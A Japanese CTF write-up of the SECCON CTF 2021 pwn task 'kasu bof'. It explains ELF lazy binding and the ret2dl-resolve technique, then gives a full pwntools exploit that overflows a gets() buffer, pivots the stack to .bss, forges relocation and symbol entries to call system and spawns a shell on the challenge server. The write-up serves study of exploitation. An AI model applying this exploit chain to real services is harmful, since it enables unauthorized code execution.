




# SECCON CTF 2021 `kasu bof [pwn]` writeup
お初にお目にかかります。
Caffeineと申します☕

SECCON CTF 2021にチームWaniHackaseとして参加させていただきました。

## 問題



実行ファイルとそのソースコードが配布されている。

```c
#include <stdio.h>

int main(void) {
  char buf[0x80];
  gets(buf);
  return 0;
}
```

## 解法
最初に取り掛かったのはチームメイトのsaruさん。
何はともあれｹﾞtsィ機構のチェックから
```
[*] '/home/saru/autopwn/db/2021/12_seccon/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for 
```
canaryがないことからBoFだろうとのこと。
PIEも無効なので実行ファイルのアドレスは最初から分かっている。
gets関数のリターンアドレスを書き換えてROPに持ち込むことができそう。

以降の指針は問題文内で示されている。を見ればret2dl resolve attackを使えばいいとのことらしい。が、勉強したことがない。
私よりpwn歴の長いチームメンバーも初対面の問題だった様子。
過去のwriteupや解説記事をチームで共有しながら理解を深めて地道に取り組んでいくことに。

### ret2dl resolve attackとは
ret2dl resolve attackはELFの遅延リンクの仕組みを利用して、共有ライブラリ内の関数を呼び出す攻撃手法。
遅延リンクとは、Partial RELROにおいて関数が最初に呼び出された時に外部アドレスをGOTにキャッシュする方式である。
遅延リンクはPLTによって実現される。
配布されたプログラムを例にPLTのはたらきを解説する。



まず、初回の関数呼び出しの例を見ていこう。
main関数内でgets関数が呼ばれる。
呼び出し先は.pltセクション内のgets関数がエントリされているアドレスである (①)。
.pltセクション内のgets関数は、.got.pltセクションのgets関数がエントリされているアドレスを呼び出す (②)。
.got.pltセクション内のgets関数は呼び出し元となる.pltセクション内の機械語の次のアドレスを指す (③)。
.pltセクション内に戻ると、スタックに0x0をpushしたのちに (後述).pltセクションの先頭のアドレスにjmpする (④)。
.pltセクションの先頭のアドレスでは、0x804c004にあるアドレスをpushした後に0x804c008にあるアドレスを参照してjmpする(⑤)。
0x804c004と0x804c008は.got.pltセクション内のアドレスであり、実行時にはそれぞれ.bssセクションの後ろのアドレス、dl_runtime_resolve関数のアドレスが入る。
dl_runtime_resolve関数は.bssセクションの後ろのアドレスと.pltセクションでスタックにpushした0x0を引数に取ってアドレス解決を行う。
アドレス解決が行われると、GOTのgets関数のエントリがlibc上のgets関数のアドレスに書き換えられる。
その後、得られたlibc上のgets関数のアドレスにjmpする。

続いて2回目以降の関数呼び出しの例を確認する。
.pltセクション内のgets関数がエントリされているアドレスを呼び出し先に、main関数内でgets関数が呼ばれる (①)。
.pltセクション内のgets関数は、GOTのgets関数のエントリを参照する (②)。
gets関数の初回実行時にlibc上のアドレスがキャッシュされているはずなので、アドレス解決の過程を経ずにgets関数のアドレスにjmpする (③)。



関数の初回実行時にdl_runtime_resolve関数で行われるアドレス解決の流れを図示する。
dl_runtime_resolve関数や後述のリンクテーブルの実装はアーキテクチャによって実装が異なるが、今回は32ビットアーキテクチャを例に解説する。
dl_runtime_resolve関数は、.rel.pltセクションの先頭アドレスから第2引数 (例においては0x0)だけオフセットしたアドレスを参照する (①)。
.rel.pltはリロケーションテーブルと呼ばれ、各要素はr_offsetとr_infoの2つのメンバからなる構造体である。
r_offsetは当該関数のGOTのアドレスを示す。
r_infoは上位8ビットに.dynsymセクションにおける当該関数のインデックスを、下位8ビットには再配置の種類を保持する。
r_infoの上位8ビットを基に、.dynsymセクションの対応するインデックスの要素を見る (②)。
.dynsymはシンボルテーブルと呼ばれ、各要素はst_name、st_value、st_size、st_info、st_other、st_shndxの6つのメンバを持つ構造体として実装される。
各メンバのうち、動的リンクに深く関わるのはst_nameである。
dl_runtime_resolve関数は.dynstrセクションの先頭からst_nameだけオフセットした位置にある文字列を参照する (③)。
参照された文字列を基に名前解決を行い (④)、得られたlibc上のアドレスをr_offsetが示すGOTのアドレスに上書きする (⑤)。



ret2dl resolve attackでは、下図のような挙動を狙う。
一見すると.dynstrの当該文字列を書き換えるだけだが、実際には.dynstrセクションに書き込み権限はない。
そこで、dl_runtime_resolve関数の第2引数のオフセットをを調整して自作した偽のリンク機構を動作させることを狙ってみる。
リンクを作成するために用意したテーブルのアドレスを知っておく必要があるが、固定アドレスへの書き込みが可能であればret2dl resolve attackが達成できる

### Exploit
まず固定アドレスへの書き込みを実現するために.bssセクションを狙ったROP stagerを行う。
.bssセクションにデータを書き込んでstack pivotした後、.pltセクションの先頭のアドレスにjmpする。
前述の通り第2引数のオフセットを調節してdl_runtime_resolve関数を呼べば、自作した動的リンクを経てsystem関数が呼び出せる。

気を付けなくてはならないのは、dl_runtime_resolve関数が各種健全性テストを行っていること。
具体的には
+ .rel.pltを構成する構造体のメンバr_infoの下位8ビットが0x7であること。
  + 遅延リンクによる起動であることを示す。
+ .dynsymを構成する構造体のメンバst_infoが0x12であること。
  + シンボルがグローバル関数であることを示す
+ .dynsymの構造体が.dynsymセクションの先頭アドレスから0x10バイトの整数倍進んだアドレスに配置されていること。
  + .dynsymを構成する構造体のサイズが0x10バイトであるため。
を確認している。

以上を踏まえてexploit codeを作成する。

```py
import pwn
import sys

buf_size = 132

# 必要なアドレスのリーク
addr_dynsym_start = 0x804820c
addr_dynstr_start = 0x804825c
addr_relplt_start = 0x80482d8
addr_plt_start = 0x8049030
addr_plt_gets = 0x8049040
addr_got_gets = 0x804c00c
addr_bss = 0x804c01c

# ROP gadget
addr_pop_ebx = 0x08049022    # pop ebx ; ret ;
addr_pop_ebp = 0x080491ae    # pop ebp ; ret ;  
addr_leave_ret = 0x080490e5  # leave  ; ret ;

# pivot先のアドレス
stack_size = 0x800
addr_base_stage = addr_bss + stack_size
reloc_offset = (addr_base_stage + 20) - addr_relplt_start
addr_sym = addr_base_stage + 28
align_dynsym = 0x10 - ((addr_sym - addr_dynsym_start) & 0xF)
addr_sym += align_dynsym
index_dynsym = (addr_sym - addr_dynsym_start) // 0x10
r_info = (index_dynsym << 8) | 0x7
addr_arg = addr_base_stage + 80
st_name = (addr_sym + 16) - addr_dynstr_start

# 文字列の準備
system = b"system\x00"
binsh = b'/bin/sh <&2 >&2\x00'

io = pwn.remote("hiyoko.quals.seccon.jp", 9001)
# io = pwn.process("./chall")

# ROP stager
s = b"A" * buf_size
s += b"AAAA" 
s += pwn.p32(addr_plt_gets)
s += pwn.p32(addr_pop_ebx)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_pop_ebp)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_leave_ret)
s += b"\n"

io.send(s)

# ret2dl resolve attack
s = b"AAAA"
s += pwn.p32(addr_plt_start)
s += pwn.p32(reloc_offset)
s += b"AAAA"
s += pwn.p32(addr_arg)
s += pwn.p32(addr_got_gets)
s += pwn.p32(r_info)
s += b'A' * align_dynsym
s += pwn.p32(st_name)
s += pwn.p32(0)
s += pwn.p32(0)
s += pwn.p32(0x12)
s += system
print(len(s))
s += b'A' * (80-len(s))
s += binsh
s += b'A' * (100-len(s))
s += b"\n"

io.send(s)

io.interactive()
```

FLAG: `SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}`

## 参考記事
+ ももいろテクノロジー，"ROP stager + Return-to-dl-resolveによるASLR+DEP回避" https://inaz2.hatenablog.com/entry/2014/07/15/023406
+ sounakano，"ret2dl resolve - SlideShare" https://www.slideshare.net/sounakano/ret2dl-resolve
+ "CTF Pwn - A painter and a black cat" https://raintrees.net/projects/a-painter-and-a-black-cat/wiki/CTF_Pwn